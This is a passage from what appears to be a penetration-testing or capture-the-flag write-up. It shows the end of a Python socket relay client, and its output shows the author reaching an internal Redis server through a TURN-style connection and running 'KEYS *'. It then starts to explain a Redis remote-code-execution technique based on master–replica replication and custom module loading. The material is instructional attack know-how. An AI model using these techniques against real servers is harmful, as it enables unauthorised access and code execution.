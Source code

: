 ```python
      data = sock.recv(4096)
      if not data :
        print('Connection closed')
        sys.exit()
      else :
        #print data
        sys.stdout.write(data.decode('ascii'))
    
    #user entered a message
    else :
      msg = sys.stdin.readline()
      ds.send(msg.encode('ascii'))
```

Lets run it and see how things go.

```
generated txn id b'94f5b75dd0ef28dde4622cf8'
Raw ConnectionBind Request Response b'\x01\x0b\x00\x08!\x12\xa4B\x94\xf5\xb7]\xd0\xef(\xdd\xe4b,\xf8\x80"\x00\x04None'
Message Type b'\x01\x0b'
Length 8
Cookie b'2112a442'
txn ID b'94f5b75dd0ef28dde4622cf8'
attribute type SOFTWARE
value None

KEYS *
*0
```

We type `KEYS *` and get a response, success! We now have a connection that behaves as if we have used telnet to connect a redis server.  
Eventually the connection gets reset, and this may either be due to a restart mechanism on the server, or a lack of refresh requests on
the control socket.  Either way, it stays open long enough we can pretty much get done whatever we need to.  One thing of note, when closing
the control socket, it seemed the data socket connection also was reset.

## Redis

Now we move on to attacking redis.  After attempting or ruling out most of the options outlined at https://book.hacktricks.xyz/pentesting/6379-pentesting-redis,
 we ended up searching for other options.  That's when we came across the following post https://medium.com/@knownsec404team/rce-exploits-of-redis-based-on-master-slave-replication-ef7a664ce1d0.  This article outlines a pretty cool technique that utilizes components of previous techniques and some clever syncing between a
master and a replica to load a custom module.  There are a few ingredients...

First is that redis servers can be either replicas or masters.  The replicas act as read-only backups, and the masters are responsible for 
writing.  So we can make the vulnerable redis server a replica of our own.  This means data from our own server will be 
synchronized to the replica.
